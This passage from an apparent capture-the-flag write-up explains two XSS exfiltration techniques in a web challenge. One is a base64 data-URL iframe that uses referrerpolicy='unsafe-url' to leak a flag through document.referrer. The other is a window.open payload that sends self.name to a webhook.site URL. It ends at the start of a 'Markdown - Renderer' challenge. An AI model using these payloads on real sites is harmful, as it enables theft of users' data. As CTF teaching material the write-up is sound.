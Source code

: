 **Encoded iframe**:

```html
<iframe referrerpolicy='unsafe-url' src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50am... (base64 content)'></iframe>
```

Payload gets reflected, iframe loads JS, JS reads `document.referrer` (which contains the flag) and **redirects top window**, thus exfiltrating the flag.

**Why** `**referrerpolicy='unsafe-url'**`**?**

Normally, iframes do not send the full referrer when navigating cross-origin, especially if using `data:` URLs. Browsers strip sensitive components (like query strings) by default.

By setting `referrerpolicy='unsafe-url'`, we explicitly instruct the browser to send the **complete referring URL**, including the origin, path, and query parameters — which is essential for capturing the flag.

> Reference: [MDN - iframe referrerpolicy](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#referrerpolicy)

---

#### Method 2: Using `window.name` (also appended by admin bot)

From the behavior:

```js
<iframe src='data:text/html;base64,.......' name= <bot_append_flag_here>
```

If the bot appends the flag to `name`, we can use `self.name` to extract it.

**JS Payload:**

```js
window.open('https://webhook.site/your-id?flag=' + self.name)
```

**Final iframe:**

```html
<iframe src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50am... (base64 content)' name=
```

---

## Markdown - Renderer


### Files Overview

We are given three primary files in this challenge:

- `index.html`
    
- `register.html`
    